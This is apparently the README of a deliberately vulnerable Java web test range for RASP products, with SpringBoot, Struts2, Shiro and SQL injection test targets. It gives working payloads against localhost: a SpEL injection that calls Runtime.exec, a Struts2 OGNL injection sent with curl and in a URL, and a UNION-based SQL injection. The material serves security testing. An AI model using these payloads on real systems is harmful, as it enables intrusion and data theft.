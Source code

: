 # JavaWeb RASP漏洞测试环境



## 1. 项目说明

1. RASP漏洞测试环境主要包含了两个项目:`rasp-test-springboot`和`rasp-test-struts2`，它们使用了相同的源代码分别用于测试`SpringBoot`和`Struts2`漏洞；
2. `rasp-test-core`包含了基于SpringMVC实现的所有的测试用例接口；
3. `rasp-test-jakarta-servlet`和`rasp-test-servlet`用于测试Java EE的兼容性；
4. `rasp-test-shiro`用户测试shiro漏洞；



启动`rasp-test-struts2`之后能够看到一个RASP测试导航：

<img src="images/image-20210803164543721.png" alt="image-20210803164543721" style="zoom:50%;" />

项目内置了用于性能测试的两个接口`org.javaweb.vuls.controller.IndexController.getUserByName/getSysUserByName`一个采用了传统的GET/POST传参，另一个采用了JSON方式传参：

<img src="images/image-20210803165139192.png" alt="image-20210803165139192" style="zoom:50%;" />

测试参数如下：

```bash
wrk -t200 -c500 -d30s --latency "http://localhost:8000/getUserByName.do?username=admin" 
```

JSON接口测试：

```bash
wrk -t200 -c500 -d30s --script=/Users/yz/user.lua --latency "http://localhost:8000/getSysUserByName.do" 
```

**user.lua：**

```lua
wrk.method = 'POST' 
wrk.headers['Content-Type'] = 'application/json'  
wrk.body = '{"username": "admin"}' 
```

除此之外，为了便于测试Web漏洞，在`rasp-test-struts2/src/main/webapp/modules`目录根据漏洞类型写了非常多的示例。



## 2. 靶场配置

靶场采用了Sqlite和Mysql两种数据库，如果您想安装数据库可以使用Sqlite进行测试，如果选用Mysql测试需要先创建：`javaweb-bbs`数据库，并导出项目根目录的`javaweb-bbs.sql`文件，然后修改`rasp-test-struts2/src/main/resources/config/jdbc.properties`或`rasp-test-springboot/src/main/resources/application.properties`配置文件中的数据库账号密码。



## 3. SpringBoot SpEL表达式注入

`rasp-test-springboot`使用的是`SpringBoot 1.3.0`，这个版本存在`SpEL表达式注入`漏洞，访问的控制器地址是`getUserById.do?id=1`，参数`id`存在`SpEL表达式注入`漏洞，发送如下`Payload`服务器会返回`SpEL表达式`的计算结果：
![](./images/1588767427746.jpg)

通过SpEL表达式可以执行系统命令，如:`http://localhost:8000/getUserById.do?id=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100)))}`。



## 4. Struts2 OGNL表达式注入

`rasp-test-struts2`使用的是`Struts2 2.1.8`版本存在`Struts2`命令执行漏洞，访问的`action`是`rasp.action`可以使用`Struts2`的`Payload`进行检测，例如发送如下`Payload`服务器会返回`[/ok]`:

```
redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}
```

如使用`curl`发送`Payload`：

```
curl -i http://localhost:8000/rasp.action -d "redirect:%24%7b%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()%7d"
```
或者使用浏览器访问(需要注意的是Tomcat8+不能使用URL传参):`http://localhost:8000/rasp.action?redirect:%24%7b%23w%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27).getWriter(),%23w.println(%27[/ok]%27),%23w.flush(),%23w.close()%7d`

![](./images/1588764042020.jpg)



## 5. SQL注入

几乎所有可以传参的地方都存在SQL注入，例如获取文章详情页中的`articleId`参数存在注入，如使用算数符获取ID为10000的文章(`articleId=100001-1`)：
<img src="./images/1588767982847.jpg" style="zoom:67%;" />

注入数据库信息：
`http://localhost:8000/getArticle.do?articleId=100001%20and%201=2%20union%20select%201,2,user(),4,version(),null,7`
<img src="./images/1588820291794.jpg" style="zoom:50%;" />

需要注意的是因为数据库查询的时候有一个字段是`private Date publishDate;`所以注入的时候需要注意数据字段类型，上述`union select`注入示例使用了`null`占位。



## 6. 其他测试用例

`rasp-test-core`项目中的`org.javaweb.vuls.controller`包下面包含了非常多的其他测试用例。